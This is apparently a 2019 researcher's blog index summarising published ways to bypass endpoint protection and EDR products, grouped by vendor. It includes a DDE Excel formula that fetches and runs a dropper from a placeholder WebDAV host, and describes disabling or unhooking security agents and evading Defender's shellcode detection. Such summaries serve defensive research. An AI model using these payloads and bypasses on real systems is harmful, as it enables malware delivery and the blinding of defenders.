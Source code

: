 ```yaml
---
title: "Endpoint Protection, Detection and Response Bypass Techniques Index"
date: 2019-01-15T17:50:00+07:00
author: "P. Boonyakarn"
description: "I've recently seen a bunch of articles and researches on endpoint protection and endpoint detection and response bypass techniques, so I decided to spend my research time to do document about these techniques and how was it done in summary. There is no category on these techniques as far as I know so I will simply categorize techniques by products."
---
```


I've recently seen a bunch of articles and researches on endpoint protection and endpoint detection and response bypass techniques, so I decided to spend my research time to do document about these techniques and how was it done in summary. There is no category on these techniques as far as I know so I will simply categorize techniques by products.

Before we begin, I would like to point out to another [great](http://www.hexacorn.com/blog/2018/02/25/endpoint-detection-and-response-edr-solutions-sheet-update-2/) [research](http://www.hexacorn.com/blog/2016/08/07/edr-sheet-explained/) from @Hexacorn on a review of current EDR solutions on the market. This spreadsheet presents EDRs features and capabilities in summary which is useful to utilize as targets to evade and bypass.

## CrowdStrike Falcon

tr4cefl0w posted on [0x00sec forum](https://0x00sec.org/t/bypassing-crowdstrike-falcon-detection-from-phishing-email-to-reverse-shell/10802/1) on a technique to completely bypass Falcon detection capability. The technique is including the following steps:

- He achieved code execution via Dynamic Data Exchange (DDE) in Excel because Microsoft has already patched and disabled the feature in December 2017. The formula used to leverage this attack is simple `=cmd|'/c notepad.exe'!_xlbgnm.A1`
- He utilized WebDAV server to drop a dropper, which is `nc.exe`. Apache2 with `mod_webdave` module enabled is used in this step. The embedded formula must be changed to something like `=cmd|'/c cmd.exe /c "copy \\x.x.x.x\webdav\run.txt c:\users\public\run.exe" && cmd.exe /c "c:\users\public\run.exe"'!_xlbgnm.A1`
- Unbelievably, it just works when he tried to simulate victim by open the attachment from email and allow embedded to execute
  
Komodo Research [describes](https://www.komodosec.com/post/bypassing-crowdstrike) three ways to bypass CrowdStrike falcon:

- With LOCAL SYSTEM, they can just disable user-mode service `CSFalconService` with net command which will prevent remote remediation from the console.
- They have a theory on not to leave things CrowdStrike will detect. To practice this theory, they create a reverse dynamic port forwarding tunnel on internal compromised machine. Thus, they can use the compromised machine to access the internal network without alerting from CrowdStrike Falcon.
- They just installed Qemu on the internal compromised machine for internal discovery and lateral movement.

## Cylance

MDSec [covers](https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/) many interesting points for Cylance:

- The main feature focuses on blocking malicious script such as Windows Scripting, Powers and Office macros [doesn't cover](https://vimeo.com/322902013) Excel 4.0 macros which is not much well known feature compared to VBA macros. More on [weaponizing Excel 4.0 macros](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/).
- For Windows Scripting such as VBScript and JavaScript, it turns out that Cylance will only enforce their Scripting Control feature only an execution originally from `wscript.exe`. MDSec used this flaw by [executing malicious JavaScript with `mshta.exe`](https://vimeo.com/322903302). 
- For Memory Protections feature, Cylance injects `CyMemdef.dll` and `CyMemDef64.dll`to a process. When a malicious process is executing, hooks placed by these DLLs will use to detect execution of a suspicious function. From this fact, MDSec created a function to unhook Cylance's DLL from DLL export.
- Cylance also offers Application Control feature to prevent risky applications execution such as PowerShell. Cylance still uses the same technique as described on Memory Protections to enforce policies. MDSec found that inside `CyMemdef.dll` and `CyMemDef64.dll`, there is a function which compares the executable's name with something like `PowerShell.exe`. These DLLs also check for existence of reference to `powershell.pdb` in PE debug directory. If these two conditions are true, `CyMemDefPS64.dll` will be loaded to send a warning message. Thus, MDSec spawned PowerShell process with `CREATE_SUSPEND` flag and modify the reference to PDB before resuming an execution, resulting as bypassing Application Control feature.
- MDSec also found a way to bypass VBA execution protection. By analyzing Cylance, MDSec discovered that Cylance adds hooks to VBA runtime, for example, `VBE7.dll` which contains functions such as Shell and CreateObject. By the way, Cylance did nothing with the exposed COM object. So, MDSec just directly enabled Windows Script Host Object Model on VBA project to use `WshShell` object to bypass hooked `CreateObject`.
- Isolation feature on Cylance OPTICS stores an unlock key on `HKEY_LOCAL_MACHINE\SOFTWARE\Cylance\Optics\PdbP` which can be simply decrypted using DPAPI master key available on Cylance OPTIOCS assemblies. The Isolation feature can also be bypassed by executing `CyOptics.exe` control `unlock-net` without providing key from LOCAL SYSTEM.

Hoang Bui [pointed out](https://medium.com/@fsx30/bypass-edrs-memory-protection-introduction-to-hooking-2efb21acffd6) about hooking and bypassing techniques on `CyMemDef64.dll`

## Palo Alto Traps
[@c0d3xpl0it](https://www.c0d3xpl0it.com/2019/01/bypassing-paloalto-traps-edr-solution.html) at Bits of Security wrote a blog to present an idea to bypass Traps. The technique utilized built-in tool `FLTMC.exe` which can be used to manage filter driver to unload Traps' file monitoring filter driver. The technique required administrator privilege to issue the commands.

## Windows Defender

Mantvydas Baranauskas at [Red Teaming Experiments](https://ired.team/offensive-security/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change) presented an idea to modify shellcode in purpose of evading detection, which I personally think that it is similar but not the same to Ghost Writing technique I learnt on SEC504. This technique can be accomplished by changing parts of shellcode to avoid some kind of pattern detection, and flip it back before deploying to the allocated memory.